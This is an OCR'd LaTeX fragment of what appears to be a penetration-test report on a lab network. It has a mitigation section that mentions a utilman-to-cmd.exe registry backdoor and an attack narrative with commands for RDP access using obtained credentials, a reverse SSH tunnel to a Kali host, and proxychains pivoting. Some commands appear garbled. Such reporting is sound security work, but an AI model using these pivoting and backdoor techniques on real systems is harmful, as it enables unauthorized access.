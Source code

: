 \documentclass[notitlepage]{article}
\begin{document}
    \subsubsection*{Mitigation or Resolution Strategy}
    To avoid this issue, the reset function should be removed. Another method to stop Oliver from accessing Debbies passwords must be used as this is allowing for any
    attacker to gain complete admin to all users which is of higher importance than Debbies account. Debbie needs to create stronger passwords and this function must be 
    terminated. The registry entry for utilman to cmd.exe must also be removed and the previous batch files must be removed.



\section{Attack Narrative}

    \subsection{Remote Desktop Access}
    To gain remote desktop access to books, ssh and rdesktop were employed. To begin, the following command was used
    \begin{verbatim}
sudo service start ssh
rdesktop -g 90% innerouter.artstailor.com
    \end{verbatim}
    Once we log in to innerouter using the pr0b3 credentials, we can open up a command prompt from inside and connect to kali 
  \begin{verbatim}
ssh -R 1081 kali@172.24.0.10 
  \end{verbatim}
  Now, we can create a tmp directory and use this directory to store any results we might get from books. We can then connect as follows
   \begin{verbatim}
proxychains -g 90% books.artstailor.com -r disk:win32=/tmp/ex0d0
   \end{verbatim}
\end{document}
